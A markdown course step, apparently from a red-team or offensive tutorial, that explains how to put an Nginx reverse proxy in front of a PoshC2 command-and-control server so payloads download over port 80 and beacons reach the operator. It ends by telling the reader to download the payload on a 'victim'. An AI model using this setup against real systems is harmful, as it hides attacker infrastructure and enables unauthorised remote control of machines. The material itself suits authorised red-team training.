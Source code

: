 # Setting up Nginx with TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffic and beacon traffic can sometimes be encrypted by default making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lets install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets create a config file for pass through connections 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```
    server {
        listen 80;
        #NOTE: This line is so payloads can be downloaded over port 80 using Powershell
        server_name <IP of Proxy Server>;

        location / {
            proxy_pass https://<posh-server IP>:<Posh bind port>;
        }
    }
    ```

5. Now lets reload Nginx with the new config files
    ```bash 
    sudo systemctl restart nginx.service
    ```

7. Host your payload however and download on victim 

8. tada you have a beacon shelley, fuck you.

## Important Nginx File Locations 
- `/var/www/html` – Website content as seen by visitors.
- `/etc/nginx` – Location of the main Nginx application files.
- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.

## [Return to course page](README.md) or [Go To Next Step](step3-persistence.md)